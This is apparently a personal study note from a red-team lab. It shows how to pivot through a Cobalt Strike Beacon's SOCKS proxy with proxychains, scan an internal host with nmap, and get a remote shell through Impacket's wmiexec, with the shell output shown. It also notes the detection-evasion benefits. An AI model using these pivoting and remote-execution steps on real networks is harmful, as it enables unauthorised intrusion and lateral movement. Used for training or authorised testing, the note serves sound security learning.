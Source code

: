 ```yaml
---
creation date: September 24th 2022
last modified date: September 24th 2022
aliases: []
tags: #📕
---
```


Primary Categories: { Add link(s) [[]] back to related PRIMARY categories }
Secondary Categories:  { Add link(s) [[]] back to related SECONDARY categories }
Links: {Add link(s) [[]] to related terms}
Search Tag: #📕  

# [[SOCKS Proxies]]  
___

## Description:  

### CobaltStrike SOCKS proxy

A SOCKS (Secure Socket) Proxy exchanges network packets between a client and a server via a "proxy".

This is particularly helpful when we want to leverage Linux-based toolsets such as [Impacket](https://github.com/SecureAuthCorp/impacket).

 It also carries additional OPSEC advantages - since we're not pushing offensive tooling onto the target or even executing any code on a compromised endpoint, it can shrink our footprint for detection.

To start a socks proxy, use `socks [port]` on a Beacon.

```
beacon> socks 1080
[+] started SOCKS4a server on: 1080
```
This will bind port 1080 on the Team Server.

Open `/etc/proxychains.conf` and change `socks4 127.0.0.1 9050`. Change `9050` to `1080` (or whichever port you're using).


To tunnel a tool through proxychains, it's as simple as `proxychains [tool] [tool args]`.

Before running commands run `sleep 0` in beacon to set it to interactive mode. After you run command set it back to `sleep 15`.

```
beacon> sleep 0
```


 ICMP and SYN scans cannot be tunnelled, so we must disable ping discovery (`-Pn`) and specify TCP scans (`-sT`) for nmap to work.

```
root@kali:~# proxychains -q nmap -n -Pn -sT -p445,3389,5985 10.10.17.25
```

Interactive shell through proxychains

```
root@kali:~# proxychains python3 /usr/local/bin/wmiexec.py DEV/bfarmer@10.10.17.25
ProxyChains-3.1 (http://proxychains.sf.net)
Impacket v0.9.22 - Copyright 2020 SecureAuth Corporation

Password:
|S-chain|-<>-127.0.0.1:1080-<><>-10.10.17.25:445-<><>-OK
[*] SMBv3.0 dialect used
|S-chain|-<>-127.0.0.1:1080-<><>-10.10.17.25:135-<><>-OK
|S-chain|-<>-127.0.0.1:1080-<><>-10.10.17.25:49682-<><>-OK
[!] Launching semi-interactive shell - Careful what you execute
[!] Press help for extra shell commands

C:\>whoami
dev\bfarmer

C:\>hostname
srv-1

```





___

## Resources:

| Hyperlink | Info |
| --------- | ---- |


Created Date: September 24th 2022 (09:50 am)  
Last Modified Date: <%+tp.file.last_modified_date("MMMM Do YYYY (hh:ss a)")%>
